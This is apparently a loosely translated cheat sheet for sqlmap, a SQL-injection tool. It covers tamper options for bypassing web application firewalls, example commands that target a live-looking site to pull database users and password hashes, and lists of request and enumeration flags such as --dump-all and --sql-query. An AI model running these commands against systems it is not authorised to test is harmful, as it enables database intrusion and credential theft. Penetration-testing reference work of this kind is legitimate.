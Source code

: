 --tamper bypasses the WEB firewall (WAF) Sqlmap by encoding by default with char()

--tamper plugin directory \sqlmap-dev\tamper

Sqlmap -u "http:// www.2cto.com /news?id=1" --smart --level 3 --users #smart Intelligent level execution test level

Attack example:
Sqlmap -u "http://url/news?id=1&Submit=Submit" --cookie="xxx" --string="Surname" --dbms=mysql --user --password

# Request
These options can be used to specify how to connect to the target URL :

--data=DATA Data string sent via POST
--cookie=COOKIE				HTTP Cookie header
--cookie-urlencode			URL encoding generated by cookie injection
--drop-set-cookie			Ignore the Set-Cookie header of the response
--user-agent=AGENT			Specifies the HTTP User --Agent header
--random-agent				uses a randomly selected HTTP User --Agent header
--referer=REFERER			Specifies the HTTP Referer header
--headers=HEADERS			Wrap separate, add other HTTP headers
--auth-type=ATYPE			HTTP authentication type (basic, digest or NTLM) (Basic, Digest or NTLM)
--auth-cred=ACRED			HTTP authentication credentials (username: password)
--auth-cert=ACERT			HTTP certificate (key_file, cert_file)
--proxy=PROXY				Connect to the target URL using an HTTP proxy
--proxy-cred=PCRED			HTTP Proxy Authentication Credentials (Username: Password)
--ignore-proxy				ignores the system default HTTP proxy
--delay=DELAY				The delay between each HTTP request in seconds
--timeout=TIMEOUT			Time to wait for the connection to time out (default is 30 seconds)
--retries=RETRIES			Time to reconnect after connection timeout (default 3)
--scope=SCOPE				Regular expression for the filter target from the provided proxy log
--safe-url=SAFURL			The url address that is frequently accessed during the test.
--safe-freq=SAFREQ			Test request between visits, giving a secure URL

# Enumeration

These options can be used to enumerate information about the back-end database management system, the structure and data in the tables. In addition, you can also run your own SQL statements.

-b, --banner				Retrieve the identity of the database management system
--current-user				retrieves the current user of the database management system
--current-db				retrieves the current database of the database management system
--is-dba					Detects whether the DBMS current user is DBA
--users 					enumerates database management system users
--passwords 				enumerates database management system user password hashes
--privileges 				enumerates permissions for database management system users
--roles						enumerates the roles of database management system users
--dbs						enumerates the database management system database
--tables					enumerates tables in the DBMS database
--columns					enumerates DBMS database table columns
--dump						dumps the entries in the database of the database management system
--dump-all					dumps entries in all DBMS database tables
--search 					search column(s), table(s) and/or database name(s)
-D DB 						The name of the database to be enumerated
-T TBL 						Database table to be enumerated
-C COL 						Database column to be enumerated
-U USER						database user used for enumeration
--exclude-sysdbs			Exclude system database when enumerating tables
--start=LIMITSTART			The first query output goes into the search
--stop=LIMITSTOP 			The output of the last query goes into the search
--first=FIRSTCHAR			Character search for the first query output word
--last=LASTCHAR				Output word character retrieval for the last query
--sql-query=QUERY			SQL statement to execute